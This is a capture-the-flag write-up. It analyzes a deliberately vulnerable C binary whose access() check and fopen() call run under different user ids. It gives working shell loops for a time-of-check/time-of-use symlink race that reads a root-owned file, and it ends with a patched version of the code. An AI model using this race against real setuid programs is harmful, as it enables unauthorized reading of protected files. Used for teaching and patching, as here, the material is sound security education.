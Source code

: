 For this challenge, you need to use the binary to read the ladder file. You will probably also need to run the binary as root.

This challenge is based off of Level 10 from Nebula on exploit-excercises.

Let's take a look at the source code...

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char** argv)
{
	if (argc != 2)
	{
		printf("You need two arguments for this.\n");
		exit(0);
	}
	setreuid(1000, 0);
	if (access(argv[1], R_OK) == 0 )
	{
		setreuid(0, 0);
		char found[200];
		FILE* target = fopen(argv[1], "r");
		while (fgets(found, sizeof(found), target))
		{
			printf("%s\n", found);
		}
	}
	else
	{
		puts("Oh that's right, you can't grab the ladder. We should experiment on how to improve that.");
	}
}
```

So looking at this binary, we see that it essentially tries to read from a file that is named what you passed it in the first argument. We see that it runs a few checks, such as making sure there are only two arguments (the binary's name and the file name), and that you can actually read the file. Let's just try to use it to read the ladder file.

```
guyinatuxedo@tux:/Hackery/escape/endless_pit/e6 (master)$ ./e6 ladder
Oh that's right, you can't grab the ladder. We should experiment on how to improve that.
guyinatuxedo@tux:/Hackery/escape/endless_pit/e6 (master)$ sudo ./e6 ladder
Oh that's right, you can't grab the ladder. We should experiment on how to improve that.

```

So it didn't work. Upon looking at the code again, we see that the check it uses to verify that you can read the file uses the access() function. Thing is the access file verifies that your real id can open the file, not your effective id. Your real id is the id of the user that you are running as. Your effective id is a temporary id that you assume to perform a job. For instance when you run a command as sudo, your effective id becomes root. Since your effective id is root, you should be able to perform all of the functions that root can. However when your real id, which is the id of the user account you are running as, doesn't change at all. This allows you to temporarily assume a new id (usually root through the use of sudo), then after you are done with it return to your normal user. Let's check what permissions the ladder file has.

```
guyinatuxedo@tux:/Hackery/escape/endless_pit/e6 (master)$ ls -asl ladder
4 -rwx------ 1 root guyinatuxedo 110 Apr 10 15:18 ladder
```

We also see that is sets the real id to 1000, and the effective id to 0 (which is root).

```
	setreuid(1000, 0);
```

So even if we run it as root, it will fail. So with that revelation, we shouldn't be able to use the binary to read the file. However there exists a bug in the code. The access() function uses the real id, however the fopen() call uses the effective id. So if we can bypass the access() call, the fopen() call should read it as long as our effective id is root (in addition to that it switches the ). We can do this using a Time of Check, Time of Use exploit. We will have two loops running. One that switches between creating a symbolic link between a file that our real id can open, and the file that our real id can't open. With the second loop, we will just infinitely run the binary while passing the symbolic link as the file it opens. That way after enough iterations (should only be a couple of seconds) the binary will verify that it can open the symbolic link since it will be pointing to a file that we created, however before it starts reading from the symbolic link we will change it to point to a different file. So essentially in the time that it takes the binary to go from checking the symbolic link with access() to reading from it, we will change where it points. 

First let's create the file that we own and have permissions to.

```
guyinatuxedo@tux:/Hackery/escape/endless_pit/e6 (master)$  cd /Hackery/escape/endless_pit/e6 
guyinatuxedo@tux:/Hackery/escape/endless_pit/e6 (master)$ echo "missed" > /tmp/handle
```

Now let's start the loop where we just swap between creating the symbolic link between the file we are trying to reach, and the file we just made.

```
guyinatuxedo@tux:/Hackery/escape/endless_pit/e6 (master)$ while true; do ln -fs /tmp/handle handle; ln -fs ladder handle; done
```

Now while that is running, in either a different terminal or ttyl session you can start the second loop

```
guyinatuxedo@tux:/Hackery/escape/endless_pit/e6 (master)$  while true; do sudo ./e6 handle; done
```

Then you should see a giant wall of text that contains a combination of the three different strings, because since we aren't specifically timing the creation of new symbolic links based upon when it is checked and read, we should end up with the three possible scenarios.

String 1:
```
Oh that's right, you can't grab the ladder. We should experiment on how to improve that.
```

String 2:
```
missed
```

String 3:
```
LEVEL CLEARED!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
```

and just like that, we pwned the binary. Now to patch it...


```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char** argv)
{
	if (argc != 2)
	{
		printf("You need two arguments for this.\n");
		exit(0);
	}
	setreuid(1000, 1000);
	if (access(argv[1], R_OK) == 0 )
	{
		char found[200];
		FILE* target = fopen(argv[1], "r");
		while (fgets(found, sizeof(found), target))
		{
			printf("%s\n", found);
		}
	}
	else
	{
		puts("Oh that's right, you can't grab the ladder. We should experiment on how to improve that.");
	}
}

```

As you can see, we stopped the privilege escallation after the access() check. This way when the binary reads from the file, it will be using the same permissions that it had when it checked if it could open it. In addition to that, we set the effective id equal to the real id so the binary can't use the effective id to open files that the real id can't. When we run the loops again using the patched binary, we see that the Time of Check, Time of Use explooit no longer works. Just like that we patched the binary!